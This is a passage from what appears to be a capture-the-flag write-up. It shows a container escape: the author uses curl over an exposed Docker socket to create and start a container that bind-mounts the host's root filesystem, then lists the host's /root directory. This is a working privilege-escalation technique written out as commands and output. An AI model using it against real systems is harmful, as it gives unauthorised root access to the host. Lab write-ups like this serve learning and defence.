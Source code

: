 It returns the ID of the new container without any warnings, so it worked.

The POST body is:

```

{
  "Image": "sandbox:latest",
  "HostConfig": {
    "Binds": [
      "/:/rootfs"
    ]
  },
  "Cmd": [
    "/bin/sh",
    "-c",
    "ls -l /rootfs/root/"
  ],
  "Tty": true
}

```

The `Image` comes from the list of available containers above. The `Binds` tells the container to map the host `/` to `/rootfs` inside the container. To start, I’ll use `Cmd` to list the files in the root home directory. For some reason I needed to set `Tty` to `true` to get this working.

#### Start Container

Next I’ll use the `/container/$id/start` [API](https://docs.docker.com/engine/api/v1.30/#operation/ContainerStart) to start the container (I can use the full ID or the first four characters):

```

root@2d24bf61767c:~# curl -i --unix-socket /var/run/docker.sock -s -X POST -H "Content-Type: application/json" http://localhost/containers/0af5/start
HTTP/1.1 204 No Content
Api-Version: 1.40
Docker-Experimental: false
Ostype: linux
Server: Docker/19.03.8 (linux)
Date: Tue, 01 Sep 2020 20:36:10 GMT

```

I included `-i` to see the headers. HTTP 204 is the expected code when the container starts.

#### Get Results

At this point, the `Cmd` has already run. I’ll use the `/containers/$id/logs` [API](https://docs.docker.com/engine/api/v1.30/#operation/ContainerLogs):

```

root@2d24bf61767c:~# curl -s --unix-socket /var/run/docker.sock "http://localhost/containers/0af5/logs?stderr=1&stdout=1"total 8
-rw-------    1 root     root            33 Sep  1 13:19 root.txt
drwxr-xr-x    3 root     root          4096 May 18 08:44 snap

```
